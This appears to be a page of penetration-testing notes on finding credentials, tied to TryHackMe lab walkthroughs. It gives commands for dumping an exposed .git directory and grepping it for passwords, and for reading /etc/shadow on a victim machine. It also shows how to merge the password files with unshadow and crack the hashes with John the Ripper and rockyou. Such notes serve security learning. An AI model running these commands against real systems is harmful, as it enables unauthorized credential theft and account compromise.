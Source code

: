 May be able to find credentials in a project.

#### Examples

[spring.md](../../walkthroughs/tryhackme/spring.md "mention")

**Kali**

```
pip install git-dumper
mkdir git
git-dumper https://$GITPROJECT/.git/ git/
cd git
git log

grep -r pass *
```



## Linux Credentials

### Shadow

#### Examples

[linux-privilege-escalation.md](../../walkthroughs/tryhackme/linux-privilege-escalation.md "mention")[wgel-ctf.md](../../walkthroughs/tryhackme/wgel-ctf.md "mention")[brute-it.md](../../walkthroughs/tryhackme/brute-it.md "mention")[jack-of-all-trades.md](../../walkthroughs/tryhackme/jack-of-all-trades.md "mention")

If /etc/password and /etc/shadow are readable or you can somehow download them you might be able to crack the hashes.

**Victim**

```
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
python hash-id.py $HASH
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```


